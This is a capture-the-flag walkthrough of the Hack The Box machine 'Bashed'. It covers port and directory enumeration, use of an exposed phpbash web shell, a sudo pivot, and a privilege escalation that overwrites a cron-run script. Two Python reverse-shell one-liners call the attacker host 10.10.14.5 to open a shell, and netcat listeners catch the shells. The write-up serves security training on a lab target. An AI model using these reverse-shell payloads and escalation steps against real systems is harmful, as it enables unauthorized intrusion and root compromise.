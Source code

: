 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Apache httpd 2.4.18](#apache-httpd-2418)
- [Foothold](#foothold)
	- [phpbash execute shell](#phpbash-execute-shell)
- [Privilege Escalation](#privilege-escalation)
	- [Sudo Access](#sudo-access)
	- [Crontab File overwrite](#crontab-file-overwrite)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.68

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.68 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 09:54 +07
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.81 seconds

### Web Enumeration (80) ############################
```

### Apache httpd 2.4.18

List of the hidden using `gobuster` and I try to enum in the hidden url.

```
[+] Files and directories
gobuster dir -k -u http://10.10.10.68:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
```

At uri `/dev`, I got 2 file which is phpbash command shell.

![](images/2.png)

## Foothold

### phpbash execute shell

At url `http://10.10.10.68/dev/phpbash.php`, I try some reverse shell with `bash`, `nc` but it's not work. When I run `python reverse shell` and I got it.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

At listener, I got reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.2:29.2]~/walkthrough/hackthebox/bashed
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34342
www-data@bashed:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Sudo Access

After running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), I got the sudo access to run command with scriptmanager's permission without password. 

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Let's run `/bin/bash` to get the shell.

```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

### Crontab File overwrite

I try to monitor process with [pspy32](https://github.com/DominicBreuker/pspy/blob/master/README.md). The results show that there are process run all python file in folder `scripts` as root.

```
scriptmanager@bashed:/tmp$ ./pspy32
<snip>
2021/04/05 21:01:04 CMD: UID=0    PID=18391  | /bin/bash 
2021/04/05 21:01:04 CMD: UID=0    PID=18390  | python test.py 
2021/04/05 21:01:04 CMD: UID=0    PID=18389  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

And script `test.py` owned by scriptmanager, and we can modify it.

```
scriptmanager@bashed:/scripts$ ls -lh
ls -lh
total 12K
-rw-r--r-- 1 scriptmanager scriptmanager 211 Apr  5 21:00 test.py
-rw-r--r-- 1 root          root           12 Apr  5 21:00 test.txt
```

Let's add python reverse shell to file test.py and waiting cronjobs execute it.

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > /scripts/test.py
```

At listener, I got root shell.

```
┌──(Hades㉿10.10.14.5)-[1.3:27.7]~/scripting/priescal/monitor
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34304
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:~# cat /var/spool/cron/crontabs/root
cat /var/spool/cron/crontabs/root
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.igz05b/crontab installed on Mon Dec  4 17:53:17 2017)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```